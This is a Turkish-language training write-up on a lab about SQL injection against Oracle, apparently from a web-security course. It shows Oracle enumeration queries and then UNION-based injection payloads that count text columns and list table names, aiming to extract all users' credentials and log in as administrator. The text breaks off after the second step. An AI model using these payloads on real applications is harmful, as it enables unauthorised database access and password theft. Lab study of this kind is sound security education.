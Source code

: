 
### Oracle Veritabanının İçeriğini Listeleme

Oracle veritabanında, aşağıdaki **query**'leri kullanarak aynı bilgileri elde edebilirsiniz:

1. Table'ları Listeleme

Veritabanındaki **table**'ları listelemek için aşağıdaki **query**'yi çalıştırın:

```
SELECT * FROM all_tables;
```

2. Column'ları Listeleme

Belirli bir **table** içindeki **column**'ları listelemek için aşağıdaki **query**'yi kullanın (**table_name** kısmını değiştirmeyi unutmayın):

```
SELECT * FROM all_tab_columns WHERE table_name = 'USERS';
```

---

### Lab: SQL injection saldırısı, Oracle'da veritabanı içeriğinin listelenmesi

Bu laboratuvar, product category filtresinde bir SQL injection güvenlik açığı içerir. Sorgudan elde edilen sonuçlar uygulamanın yanıtında döndürülür, böylece diğer tablolardan veri almak için bir UNION saldırısı kullanabilirsiniz.

Uygulamanın bir login fonksiyonu vardır ve veritabanı kullanıcı adlarını ve parolaları tutan bir tablo içerir. Bu tablonun adını ve içerdiği sütunları belirlemeniz, ardından tüm kullanıcıların kullanıcı adı ve parolalarını elde etmek için tablonun içeriğini almanız gerekir.

Laboratuvarı çözmek için administrator kullanıcısı olarak oturum açın.

Çözüm : 

1. Column Sayısını ve Veri Türlerini Belirleme

**Query**'nin kaç **column** döndürdüğünü ve hangi **column**'ların **text** veri içerdiğini belirleyin. İki **text column** döndüğünü doğrulamak için **category** parametresine şu **payload**'ı enjekte edin:

```
'+UNION+SELECT+'abc','def'+FROM+dual--
```

![Pasted image 20250329202040.png](/img/user/resimler/Pasted%20image%2020250329202040.png)

2. Veritabanındaki Table'ları Listeleme

Veritabanındaki **table**'ları görmek için aşağıdaki **payload**'ı kullanın:

```
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

![Pasted image 20250329202059.png](/img/user/resimler/Pasted%20image%2020250329202059.png)
